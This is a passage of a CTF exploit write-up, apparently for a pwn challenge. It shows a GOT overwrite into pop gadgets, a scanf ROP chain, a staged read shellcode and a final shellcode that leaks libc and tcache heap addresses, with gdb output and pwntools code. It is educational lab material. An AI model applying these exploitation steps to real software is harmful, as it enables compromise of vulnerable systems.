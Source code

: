 First we hit the got like we talked about, we overwrite the last 2 bytes so it looks like:

```
gef➤  x/7i 0x4015b2
   0x4015b2:	pop    rbx
   0x4015b3:	pop    rbp
   0x4015b4:	pop    r12
   0x4015b6:	pop    r13
   0x4015b8:	pop    r14
   0x4015ba:	pop    r15
   0x4015bc:	ret
```

This is enough pops that we can safely return into our input string after our payload.

Next, we setup a small chain to call `scanf("%80s", 0x405000)` so we can load an initial shellcode.

My first shellcode is a small `read`:

```
    mov rax, 0 
    mov rdi, 0 
    mov rsi, 0x405000 
    mov rdx, 0x4141 
    syscall
```

The idea being that my final payload can have any number of badchars, and i wont have to deal with `scanf` failing - because fuck `scanf` :) .

My final payload will require some explanation:

```
    shc = asm(''' 

    pop rcx
    pop rcx
    pop rcx
    pop rcx
    sub rcx, 0x240b3
    mov rsi, rcx 
    sub rsi, 0x2910
    mov rsi, qword ptr [rsi]
    add rsi, 0x290
    mov rax, 1 
    mov rdi, 1 
    mov rdx, 64 
    syscall

    ''')

    p.sendline(b"\x90"*0x20 + shc)
```

Firstly, we `pop rcx`. This is because further down the stack, there is a pointer to `__libc_start_main`. Once we get it, subtract to get the base of libc - not really needed but its convenient. Finally, i did some looking around for a heap address we could load, and I found that the address of the `tcache_perthread_struct` is stored in the [thread local storage](https://web.mit.edu/rhel-doc/3/rhel-gcc-en-3/thread-local.html). 
